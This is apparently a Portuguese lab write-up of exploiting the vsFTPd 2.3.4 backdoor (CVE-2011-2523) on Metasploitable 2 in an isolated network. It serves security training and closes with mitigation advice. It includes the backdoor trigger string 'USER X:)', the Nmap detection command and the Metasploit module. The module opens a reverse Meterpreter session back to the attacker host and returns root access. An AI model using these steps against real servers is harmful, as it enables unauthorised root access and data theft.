





# 🛡️ Metasploitable 2 — vsFTPd 2.3.4 Backdoor

> Laboratório prático de investigação, validação e exploração da vulnerabilidade **CVE-2011-2523**, associada à backdoor presente em uma distribuição comprometida do vsFTPd 2.3.4.

## 📌 1. Visão geral

Este laboratório documenta a investigação de uma vulnerabilidade no serviço FTP vsFTPd 2.3.4, desde o reconhecimento inicial até a confirmação de execução remota de comandos com privilégios de root.

O objetivo foi compreender o funcionamento da backdoor, analisar os mecanismos de detecção do Nmap e realizar uma exploração controlada utilizando o Metasploit Framework.

A atividade foi conduzida exclusivamente em um ambiente virtualizado e isolado.

### 🎯 Objetivos

- Identificar e enumerar o serviço FTP.
- Investigar a CVE-2011-2523.
- Analisar o script NSE de detecção do Nmap.
- Validar a presença da backdoor.
- Explorar a vulnerabilidade com Metasploit.
- Confirmar o acesso remoto e o nível de privilégio.
- Avaliar impactos e medidas de mitigação.

### 🔎 Vulnerabilidade

| Informação | Resultado |
|---|---|
| Vulnerabilidade | vsFTPd 2.3.4 Backdoor |
| CVE | CVE-2011-2523 |
| Serviço | FTP |
| Porta | TCP/21 |
| Tipo | Backdoor / Remote Code Execution |
| Privilégio obtido | Root (UID 0) |

---

## 🖥️ 2. Ambiente de laboratório

Os testes foram realizados em duas máquinas virtuais conectadas por uma rede isolada.

| Máquina | Sistema | Endereço IP |
|---|---|---|
| Atacante | Kali Linux | `192.168.100.20` |
| Alvo | Metasploitable 2 | `192.168.100.10` |

**Interface de rede do alvo:**

| Campo | Valor |
|---|---|
| Interface | `eth0` |
| IPv4 | `192.168.100.10/24` |
| MAC | `52:54:00:85:3a:6a` |

### 🧰 Ferramentas utilizadas

- Kali Linux
- Metasploitable 2
- Nmap
- Netcat
- Metasploit Framework
- Cliente FTP

---

## 🔍 3. Reconhecimento e enumeração

O reconhecimento inicial foi realizado com Nmap. Entre os serviços identificados, a investigação foi direcionada ao FTP na porta TCP/21.

**Resultado observado:**

```text
21/tcp open ftp vsftpd 2.3.4
```

O banner identificou o serviço como vsFTPd 2.3.4. Essa informação motivou a investigação da CVE-2011-2523, mas não foi considerada prova suficiente da vulnerabilidade.

### 🔐 Análise do serviço FTP

Foi realizada uma conexão manual:

```bash
ftp 192.168.100.10
```

O servidor respondeu:

```text
220 (vsFTPd 2.3.4)
```

Foram observados os seguintes comportamentos:

- Uma tentativa com usuário inexistente foi rejeitada (`530 Login incorrect`).
- A autenticação anônima foi aceita (`230 Login successful`).
- O diretório remoto apresentado foi `/`.
- A listagem FTP apresentou somente `.` e `..`.
- Não foi comprovada permissão de escrita para o usuário anônimo.
- O comando `system` retornou `215 UNIX Type: L8`.

A comunicação FTP tradicional também não utilizava criptografia.

### 📸 Evidência — Reconhecimento e validação



---

## 📚 4. Investigação da CVE-2011-2523

A pesquisa identificou a CVE-2011-2523, associada a uma distribuição comprometida do vsFTPd 2.3.4 em 2011.

A backdoor permite acionar um mecanismo de execução remota de comandos por meio de uma sequência especial enviada ao serviço FTP.

**Referência:** [Exploit-DB — 49757](https://www.exploit-db.com/exploits/49757)

> A vulnerabilidade não deve ser atribuída automaticamente a toda instalação do vsFTPd 2.3.4. É necessário validar a presença do comportamento comprometido.

### 🧪 Análise do script NSE

Foi analisado o script:

```text
ftp-vsftpd-backdoor.nse
```

Trecho relevante:

```lua
local CMD_FTP = "USER X:)\r\nPASS X\r\n"
local CMD_SHELL_ID = "id"
```

A sequência especial `USER X:)` é utilizada para acionar a backdoor.

O script também verifica a porta TCP/6200, utilizada pelo mecanismo de shell remoto, e envia o comando `id` para identificar a identidade do processo.

Durante a análise, foram estudados os delimitadores:

| Sequência | Significado |
|---|---|
| `\r` | Carriage Return |
| `\n` | Line Feed |
| `\r\n` | Delimitador de linha FTP |

Essa análise permitiu compreender a lógica de detecção antes da execução do teste.

---

## 🚨 5. Validação com Nmap

Após a investigação do script NSE, foi executada a verificação específica:

```bash
nmap --script ftp-vsftpd-backdoor -p 21 192.168.100.10
```

**Resultado observado:**

```text
21/tcp open ftp

ftp-vsftpd-backdoor:

VULNERABLE:
vsFTPd version 2.3.4 backdoor

State: VULNERABLE (Exploitable)

IDs: CVE:CVE-2011-2523

Exploit results:
The backdoor was already triggered

Shell command: id
Results: uid=0(root) gid=0(root)
```

### 📊 Interpretação

O Nmap identificou o comportamento da backdoor e conseguiu executar o comando `id`.

O resultado `uid=0(root) gid=0(root)` confirmou que a execução ocorreu com privilégios de root.

Também foi realizada uma verificação específica da porta TCP/6200:

```bash
sudo nmap -sV -p 6200 192.168.100.10
```

Na verificação realizada, a porta foi apresentada como `closed`. Isso é compatível com o comportamento investigado: a porta pode ser acionada pelo gatilho FTP, não precisando permanecer aberta continuamente.

---

## 💥 6. Exploração com Metasploit

Após a validação pelo Nmap, foi utilizado o módulo:

```text
exploit/unix/ftp/vsftpd_234_backdoor
```

O Metasploit identificou o banner vsFTPd 2.3.4 e indicou que o alvo apresentava características compatíveis com a vulnerabilidade.

**Resultado observado:**

```text
Started reverse TCP handler on 192.168.100.20:4444

FTP banner hints its vulnerable:
220 (vsFTPd 2.3.4)

The target appears to be vulnerable.

Backdoor has been spawned!

Meterpreter session 1 opened
(192.168.100.20:4444 -> 192.168.100.10:54142)
```

A exploração estabeleceu uma sessão Meterpreter interativa entre a máquina atacante e o alvo.

### 📸 Evidência — Exploração



### 🖥️ Identificação do sistema

Foi executado:

```text
meterpreter > sysinfo
```

Resultado:

```text
Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

O alvo foi identificado como Ubuntu 8.04, arquitetura i686.



### 🌐 Verificação da rede

O comando utilizado foi:

```text
meterpreter > ipconfig
```

Foram identificados:

```text
Interface   : eth0
IPv4        : 192.168.100.10
Netmask     : 255.255.255.0
MAC         : 52:54:00:85:3a:6a
```



### 👑 Confirmação de privilégios

Para confirmar a identidade da sessão, foi executado:

```text
meterpreter > getuid
```

Resultado:

```text
Server username: root
```

Isso comprovou que a sessão Meterpreter estava operando com privilégios de root.



---

## 📉 7. Análise de impacto

A exploração demonstrou a possibilidade de execução remota de comandos sem autenticação FTP convencional, com privilégios administrativos.

O impacto potencial pode ser analisado pela tríade CIA:

| Dimensão | Impacto potencial |
|---|---|
| Confidencialidade | Acesso a arquivos, configurações e informações sensíveis |
| Integridade | Modificação de arquivos, configurações e componentes do sistema |
| Disponibilidade | Interrupção de serviços e comprometimento do servidor |

O acesso privilegiado também pode permitir que um invasor investigue outros sistemas acessíveis pela rede, criando risco de movimentação lateral.

**Classificação no cenário testado:** crítica, devido à execução remota de comandos com privilégios de root.

---

## 🛡️ 8. Recomendações de mitigação

As principais medidas defensivas são:

1. Remover ou substituir a instalação comprometida por uma versão legítima e atualizada.
2. Desativar serviços FTP desnecessários.
3. Restringir o acesso ao serviço por firewall e segmentação de rede.
4. Preferir SFTP quando adequado à arquitetura.
5. Investigar possíveis sinais de comprometimento anterior.
6. Verificar contas, processos, arquivos e mecanismos de persistência.
7. Reconstruir o servidor a partir de uma imagem confiável quando houver comprometimento confirmado.
8. Monitorar conexões e atividades suspeitas.

> A atualização do software não garante, por si só, a remoção de um invasor que já tenha obtido acesso ao sistema.

---

## 🏁 9. Conclusão

O laboratório demonstrou o processo de investigação de uma vulnerabilidade desde o reconhecimento do serviço até a confirmação de seu impacto.

A identificação do vsFTPd 2.3.4 levou à investigação da CVE-2011-2523. A análise do script NSE permitiu compreender o mecanismo de detecção, e o Nmap confirmou a execução do comando `id` com privilégios de root.

Posteriormente, o Metasploit foi utilizado para estabelecer uma sessão Meterpreter interativa, na qual foram identificados o sistema operacional, a interface de rede e a identidade privilegiada da sessão.

### ✅ Resultados alcançados

- Serviço FTP identificado e enumerado.
- CVE-2011-2523 validada no ambiente de laboratório.
- Execução remota do comando `id` confirmada pelo Nmap.
- Sessão Meterpreter estabelecida pelo Metasploit.
- Sistema operacional e configuração de rede identificados.
- Privilégios de root confirmados.

O exercício reforçou a importância da enumeração, validação técnica, análise de ferramentas e documentação de evidências em uma investigação de segurança.

---

## 📚 10. Referências técnicas

- [CVE-2011-2523 — CVE Record](https://www.cve.org/CVERecord?id=CVE-2011-2523)
- [Exploit-DB — Exploit 49757](https://www.exploit-db.com/exploits/49757)
- [Nmap — ftp-vsftpd-backdoor NSE](https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html)
- [Metasploit Framework — vsftpd 2.3.4 Backdoor](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb)
- [Original Backdoor Analysis — ScaryBeasts](http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html)

---

**Ambiente:** laboratório virtual isolado.  
**Status:** investigação concluída.  
**Escopo:** CVE-2011-2523 — vsFTPd 2.3.4 Backdoor.
